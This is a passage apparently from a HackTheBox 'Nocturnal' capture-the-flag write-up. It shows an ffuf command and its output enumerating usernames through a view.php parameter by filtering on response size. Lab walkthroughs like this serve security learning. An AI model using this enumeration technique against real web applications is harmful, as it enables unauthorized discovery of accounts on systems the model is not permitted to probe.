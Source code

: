 ```
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

aarika                  [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 42ms]
abaca                   [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 45ms]
a1                      [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 46ms]
a                       [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 46ms]
abaddon                 [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 46ms]
aaronaaronic            [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 47ms]
```

The incorrect size is 2919, so a response size bigger than that should be a correct username.

After some testing I see that the file size 2985 is the sweet spot.
```
┌──(oriol㉿zero)-[~/htb/nocturnal/wordlist]
└─$ ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf' -w usernames.txt -H 'Cookie: PHPSESSID=k7b149mhb500qsuu08e22cgkpp' -fs 2985

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf
 :: Wordlist         : FUZZ: /home/oriol/htb/nocturnal/wordlist/usernames.txt
 :: Header           : Cookie: PHPSESSID=k7b149mhb500qsuu08e22cgkpp
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2985
________________________________________________

a                       [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 46ms]
abc                     [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 45ms]
akira                   [Status: 200, Size: 209972, Words: 3793, Lines: 129, Duration: 48ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 42ms]
elo                     [Status: 200, Size: 3113, Words: 1177, Lines: 129, Duration: 41ms]
test                    [Status: 200, Size: 3879, Words: 1187, Lines: 129, Duration: 43ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 43ms]
:: Progress: [81475/81475] :: Job [1/1] :: 934 req/sec :: Duration: [0:01:31] :: Errors: 0 ::
```
